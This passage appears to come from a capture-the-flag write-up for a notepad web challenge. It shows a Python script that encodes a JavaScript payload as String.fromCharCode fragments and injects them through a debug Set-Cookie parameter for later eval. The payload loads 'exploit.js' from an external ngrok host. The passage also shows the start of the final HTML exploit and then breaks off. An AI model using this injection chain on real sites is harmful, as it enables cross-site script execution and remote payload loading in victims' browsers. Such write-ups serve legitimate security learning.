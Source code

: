 Here's the script to convert the payload to the necessary URLs to set the cookies:

```python
import urllib.parse
import string

PAYLOAD = "var newScript = document.createElement('script');newScript.src = 'http://2e2e80a5f153.ngrok.io/exploit.js';this.appendChild(newScript);"

charcodes = []
for char in PAYLOAD:
	charcodes.append(ord(char))
	
print(charcodes)

f = open("exploit.html", "w")

chars = string.ascii_uppercase + string.ascii_lowercase
i = 0

f.write("<script>\n")
while charcodes:
	codes = [str(x) for x in charcodes[:5]]
	charcodes = charcodes[5:]
	
	if i == 0:
		url = urllib.parse.quote(f"var {chars[i]}=String.fromCharCode({','.join(codes)});")
		
	else:
		url = urllib.parse.quote(f"var {chars[i]}={chars[i-1]}+String.fromCharCode({','.join(codes)});")
	i += 1
	
	url = "http://chall.notepad1.gq:1111/find?debug&Set-Cookie=" + url

	f.write(f"window.open(\"{url}\");\n")

url = urllib.parse.quote(f"var {chars[i]}=eval({chars[i-1]});")
url = "http://chall.notepad1.gq:1111/find?debug&Set-Cookie=" + url
f.write(f"window.open(\"{url}\");\n")

f.write("</script>")
```

With some modification of the output, the final exploit script is:

```markup
<script>

function wait(time) {
    return new Promise(resolve => {
        setTimeout(() => {
            resolve();
        }, time);
    });
}

(async () => {
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20A%3DString.fromCharCode%28118%2C97%2C114%2C32%2C110%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20B%3DA%2BString.fromCharCode%28101%2C119%2C83%2C99%2C114%29%3B");
	window.open("http://chall.notepad1.gq:1111/find?debug&Set-Cookie=var%20C%3DB%2BString.fromCharCode%28105%2C112%2C116%2C32%2C61%29%3B");
```
